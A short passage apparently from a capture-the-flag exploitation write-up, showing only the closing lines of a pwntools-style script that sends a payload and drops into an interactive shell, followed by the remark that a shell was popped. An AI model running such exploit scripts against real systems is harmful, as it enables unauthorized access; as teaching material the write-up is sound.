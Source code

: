 ```

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```

When we run it:

![running_exploit](pics/running_exploit.png)

Just like that, we popped a shell!
